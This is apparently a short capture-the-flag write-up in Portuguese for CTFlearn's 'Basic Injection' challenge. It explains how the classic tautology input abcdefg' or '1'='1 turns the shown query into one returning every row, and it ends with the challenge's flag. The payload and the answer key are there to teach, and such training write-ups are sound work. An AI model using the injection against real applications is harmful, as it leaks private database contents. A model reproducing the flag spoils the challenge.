


# CTFlearn - Basic Injection



Essa foi a primeira tela do desafio. Uma campo de *input* que devolve informações do banco de dados pela *query*

```
SELECT * FROM webfour.webfour where name = '$input'
```

Digitando

```
abcdefg' or '1'='1
```
A *query* se torna

```
SELECT * FROM webfour.webfour where name = 'abcdefg' or '1'='1'
```

Isso significa que o SQL procurará linhas com o nome abcdefg (não existe nenhuma) OU linhas onde '1'='1' (todas as linhas). Assim, todos os campos do banco de dados serão vazados.



Isso é suficiente para achar a *flag*

```
CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}
```